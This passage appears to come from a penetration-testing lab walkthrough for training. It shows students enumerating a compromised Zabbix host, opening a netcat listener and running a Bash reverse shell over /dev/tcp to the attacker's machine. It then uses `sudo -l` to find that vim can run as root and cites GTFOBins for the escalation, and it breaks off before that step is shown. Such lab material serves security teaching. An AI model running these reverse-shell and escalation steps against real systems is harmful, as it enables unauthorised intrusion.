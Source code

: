 Next, students will perform enumeration by querying the user context in which Zabbix is running, finding out this user is not `root` and not part of the `root` group within the semi-interactive shell:

Code: shell

```shell
id
```

```
[zabbix_cmd]>>:  id
uid=114(zabbix) gid=120(zabbix) groups=120(zabbix)
```

Students will open a new terminal and start a `netcat` listener:

```shell
nc -nvlp PWNPO
```
```
┌─[us-academy-2]─[10.10.14.169]─[htb-ac-8414@htb-160mjd9rc6]─[~]
└──╼ [★]$ nc -nvlp 9001

listening on [any] 9001 ...
```

Students will use a Bash reverse shell to obtain an interactive shell:

```shell
bash -c "bash -i >& /dev/tcp/PWNIP/PWNPO 0>&1"
```
```
[zabbix_cmd]>>:  bash -c "bash -i >& /dev/tcp/10.10.14.169/9001 0>&1"
```

Subsequently, students will return to the netcat listener and are going to list the commands permitted to be run as the root user on the target, finding out that the user `zabbix` can run `/usr/bin/vim` as root's privileges:

```shell
sudo -l
```
```
zabbix@ubuntu:/$ sudo -l

sudo -l
Matching Defaults entries for zabbix on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zabbix may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/vim
```

Students will utilize the [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#sudo) list to bypass local security restrictions and escalate to the `root` user using the `vim` binary:
